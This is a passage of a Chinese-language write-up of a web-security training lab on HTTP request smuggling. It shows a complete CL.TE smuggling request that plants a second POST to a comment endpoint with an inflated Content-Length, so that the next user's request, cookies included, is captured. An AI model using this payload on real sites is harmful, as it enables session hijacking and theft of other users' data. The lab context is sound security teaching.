 看到了评论

![image-20240503111442477](images/20.png)

接下来尝试走私请求，Content-Length指定600，并且把顺序打乱，把comment参数放在请求的最后

```
POST / HTTP/1.1
Host: 0a35002803891b6e807f58fb00630044.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 349
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: 0a35002803891b6e807f58fb00630044.web-security-academy.net
Cookie: session=ktC1fIZvzbwWbZ3fg0uAmzYWKSQrjz2c
Content-Length: 600
Content-Type: application/x-www-form-urlencoded

csrf=CbBfvwtnYMbT9NqhMipcelrXfxrMyZNl&postId=6&name=123&email=12345678%40qq.com&website=https%3A%2F%2Fbaidu.com&comment=comment2
```

![image-20240503113122702](images/21.png)
